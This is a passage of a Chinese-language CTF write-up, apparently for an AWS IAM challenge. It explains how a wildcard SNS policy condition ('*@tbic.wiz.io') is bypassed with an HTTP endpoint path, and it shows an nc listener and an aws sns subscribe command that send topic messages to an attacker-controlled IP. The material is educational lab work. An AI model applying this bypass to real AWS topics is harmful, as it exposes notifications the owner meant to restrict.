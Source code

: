 ```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

这个 Policy 允许 Endpoint 结尾是 @tbic.wiz.io 的人拥有这个 SNS 服务的 Subscribe 权限。

SNS（Simple Notification Service）可以帮助开发人员向移动设备、电子邮件、消息队列等多种终端发送通知消息，让你能够轻松地向用户传递重要信息和实时更新。简单来说，SNS 就像是一个消息广播系统，让你能够快速、可靠地将消息发送给订阅者，确保他们及时收到你发送的通知。

AWS CLI 中的 SNS Subscribe 功能里需要指定协议、通知端点以及 ARN，在 Policy 中我们已经知道 ARN 了，接下来就需要去构造一个通知端点，而且这个通知端点需要以 @tbic.wiz.io 结尾。

```bash
> aws sns subscribe help

subscribe
--topic-arn <value>
--protocol <value>
[--notification-endpoint <value>]
```

查阅官方文档可以知道，通知协议支持 HTTP、HTTPS、EMAIL、SMS、SQS 等等，这里我们可以构造一个 HTTP 的通知端点，例如 [http://123.123.123.123:800/@tbic.wiz.io](http://123.123.123.123:800/@tbic.wiz.io)，这样就符合这个 Policy 里的条件了，然后当我们执行订阅命令时，就会收到来自对方的消息。

那么先在自己的服务器上，使用 NC 监听一个端口。

```bash
nc -lvk 800
```

然后执行以下命令：

```bash
aws sns subscribe --protocol http --notification-endpoint http://123.123.123.123:800/@tbic.wiz.io --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications
```
